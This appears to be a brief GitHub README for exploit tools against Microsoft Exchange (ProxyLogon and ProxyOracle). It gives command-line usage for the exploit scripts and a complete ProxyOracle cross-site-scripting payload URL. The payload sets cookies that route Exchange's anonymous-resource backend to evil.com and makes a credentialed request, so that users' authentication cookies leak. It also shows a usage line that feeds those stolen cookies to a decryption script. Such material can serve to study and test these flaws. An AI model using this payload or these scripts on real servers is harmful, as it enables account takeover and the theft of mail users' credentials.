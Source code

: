 # ProxyLogon

### ProxyLogon

`Usage: python3 exp.py mail.lab.local`

### ProxyOracle

``` bash
https://ews.lab/owa/auth/frowny.aspx?app=people&et=ServerError&esrc=MasterPage&te=\&refurl=}}};document.cookie=`X-AnonResource-Backend=@evil.com:443/path/any.php%23~1941962753`;document.cookie=`X-AnonResource=true`;fetch(`/owa/auth/any.skin`,{credentials:`include`});//

Usage: python3 31196.py 1.1.1.1 'cdata=xxx; cadataTTL=yyy; ...'
```

## Reference

https://hosch3n.github.io/2021/08/23/ProxyOracle%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/

https://github.com/mwielgoszewski/python-paddingoracle